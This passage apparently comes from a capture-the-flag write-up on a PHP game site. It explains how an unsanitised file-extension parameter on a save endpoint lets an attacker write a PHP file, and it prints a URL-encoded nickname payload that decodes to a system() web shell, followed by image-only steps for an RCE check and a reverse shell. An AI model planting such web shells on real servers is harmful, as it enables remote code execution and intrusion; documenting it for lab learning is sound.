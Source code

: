 There's a lot of things going on here. In short, there are 3 parts to it:

* Accepts one `extension` POST value that is NOT SANITISED (we can indicate PHP!)
* If we don't specify a `.txt` or a `.json`, it will create a HTML file for us and output it somewhere on the machine. Since there is no validation on the parameters being passed in, and we can specify any file extension we want, we could potentially inject PHP code onto the machine to get RCE.

To abuse this, we can easily change our `nickname` to a PHP payload using the same exploit to get admin. The code doesn't check for the `nickname` parameter, so we only need to URL encode our PHP payload.&#x20;

{% code overflow="wrap" %}
```
/save_game.php?clicks=321&level=1&nickname=%22%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%52%45%51%55%45%53%54%5b%27%63%6d%64%27%5d%29%3b%20%3f%3e%22%23

decoded, it gives nickname="<?php system($_REQUEST['cmd']); ?>"#
```
{% endcode %}

Afterwards, we can send a POST request with the `extension` parameter.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

From that `.php` file stored, check for RCE:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
